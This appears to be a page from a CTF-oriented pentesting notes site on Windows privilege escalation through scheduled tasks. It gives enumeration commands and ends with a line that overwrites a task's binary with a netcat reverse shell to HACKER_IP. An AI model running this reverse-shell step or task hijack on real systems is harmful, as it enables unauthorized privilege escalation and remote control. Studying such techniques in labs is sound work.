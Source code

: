 # Scheduled tasks

[Go back](../index.md#windows-privilege-escalation-)

[![windowsprivesc20](../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-md-2"><div>

List scheduled tasks

```shell!
PS> schtasks
```

Query more info on a task <small>(ex: `example_task`)</small> with:

```shell!
PS> schtasks /query /tn example_task /fo list /v
```

When inspecting tasks, look for the binary in **Task To Run**. You may be able to **replace**, **edit** or **inject** some code in the binary.

* Check your [permissions](/operating-systems/windows/_knowledge/index.md#permissions-and-users)

```shell!
PS> icacls task_to_run
```
</div><div>

➡️ During CTFs, you may be given the permissions to restart the task, otherwise you will have to wait.

```shell!
PS> schtasks /run /tn taskname
```

<br>

#### Replace a task

Replace a binary executed by a task with `netcat`:

```shell!
CMD> echo %temp%\nc64.exe -e cmd.exe HACKER_IP PORT > task_to_run
```
</div></div>
